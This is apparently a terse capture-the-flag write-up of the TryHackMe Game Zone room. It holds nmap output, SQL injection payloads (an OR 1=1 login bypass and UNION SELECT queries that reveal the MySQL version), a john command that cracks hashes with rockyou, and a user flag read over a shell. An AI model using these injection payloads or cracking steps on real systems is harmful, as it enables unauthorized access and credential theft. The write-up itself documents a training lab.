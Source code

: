 ┌──(kali㉿kali)-[~/tryhackme/gamezone]
└─$ nmap -sV -sC -o nmap 10.10.59.114                                                         3 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-14 21:03 EDT
Nmap scan report for 10.10.59.114
Host is up (0.35s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.56 seconds

going on the webpage we note that it seems susceptible to standard sql injection
admin' OR 1=1 -- -

alternatively we can consider hydra bruteforce

__

entering into the portal, we can do error based sqli

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1 

entering into the portal, we can do error based sqli

1' union select 1,2,3-- -
Title 	Review
2	3

1' union select 1,@@version,3-- -
Title 	Review
5.7.27-0ubuntu0.16.04.1	3

└─$ sudo john hash.txt --wordlist=/home/kali/Downloads/rockyou.txt --format=Raw-SHA256        1 ⨯



agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q Local Address:Port                Peer Address:Port              
udp    UNCONN     0      0                  *:10000                          *:*                  
udp    UNCONN     0      0                  *:68                             *:*                  
tcp    LISTEN     0      128                *:22                             *:*                  
tcp    LISTEN     0      80         127.0.0.1:3306                           *:*                  
tcp    LISTEN     0      128                *:10000                          *:*                  
tcp    LISTEN     0      128               :::22                            :::*                  
tcp    LISTEN     0      128               :::80                            :::* 